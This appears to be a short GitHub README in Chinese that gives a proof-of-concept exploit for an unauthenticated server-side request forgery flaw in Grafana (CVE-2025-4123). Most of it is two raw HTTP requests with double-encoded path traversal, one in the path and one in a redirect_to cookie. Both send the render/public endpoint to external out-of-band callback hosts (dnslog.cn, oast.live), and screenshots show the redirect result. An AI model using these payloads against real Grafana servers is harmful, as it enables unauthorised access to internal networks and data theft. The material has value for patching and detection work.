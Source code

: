 # Grafana存在未授权SSRF漏洞(CVE-2025-4123)

## poc

```javascript
GET /render/public/..%252f%255Cczeqm5.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Fedora; Linux i686; rv:128.0) Gecko/20100101 Firefox/128.0
Connection: close
Accept-Encoding: gzip
```
<img width="886" alt="1749624834319" src="https://github.com/user-attachments/assets/e139dab4-6d61-4f29-aff2-a8f84d29cd6c" />

```
GET /public/..%2F%5c123.czeqm5.dnslog.cn%2F%3f%2F..%2F.. HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12) AppleWebKit/616.19 (KHTML, like Gecko) Version/17.7.17 Safari/616.19
Connection: close
Cookie: redirect_to=%2Frender%2Fpublic%2F..%25252f%25255Cd0nt31pu8bl7cn5ncca08sg68smps8h39.oast.live%25252f%25253F%25252f..%25252f..
Accept-Encoding: gzip
```
<img width="847" alt="1749624867787" src="https://github.com/user-attachments/assets/e41c2152-38a2-49ca-a21b-f99a23a4a567" />

跟随重定向后 重定向数据

<img width="948" alt="1749624883551" src="https://github.com/user-attachments/assets/fb55bccf-853f-4773-810b-3c91580089a8" />

ssrf

<img width="878" alt="1749624901460" src="https://github.com/user-attachments/assets/82c6ee4a-4165-4245-9f23-8129af9b6ed3" />
